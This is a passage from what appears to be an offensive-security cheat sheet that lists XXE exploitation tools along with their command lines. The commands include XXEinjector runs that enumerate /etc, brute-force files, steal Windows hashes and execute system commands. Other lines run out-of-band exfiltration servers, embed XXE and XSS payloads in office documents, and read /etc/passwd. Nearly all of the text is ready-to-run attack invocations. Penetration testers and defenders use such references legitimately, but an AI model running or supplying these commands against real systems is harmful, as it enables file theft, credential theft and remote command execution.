 - [xxeftp](https://github.com/staaldraad/xxeserv) - A mini webserver with FTP support for XXE payloads
  ```ps1
  sudo ./xxeftp -uno 443
  ./xxeftp -w -wps 5555
  ```
- [230-OOB](https://github.com/lc/230-OOB) - An Out-of-Band XXE server for retrieving file contents over FTP and payload generation via [http://xxe.sh/](http://xxe.sh/)
  ```ps1
  $ python3 230.py 2121
  ```
- [XXEinjector](https://github.com/enjoiz/XXEinjector) - Tool for automatic exploitation of XXE vulnerability using direct and different out of band methods
  ```ps1
  # Enumerating /etc directory in HTTPS application:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  # Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  # Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```
- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
  ```ps1
  ruby server.rb
  ```
- [docem](https://github.com/whitel1st/docem) - Utility to embed XXE and XSS payloads in docx,odt,pptx,etc
  ```ps1
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```
- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.
  ```ps1
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs
  ```
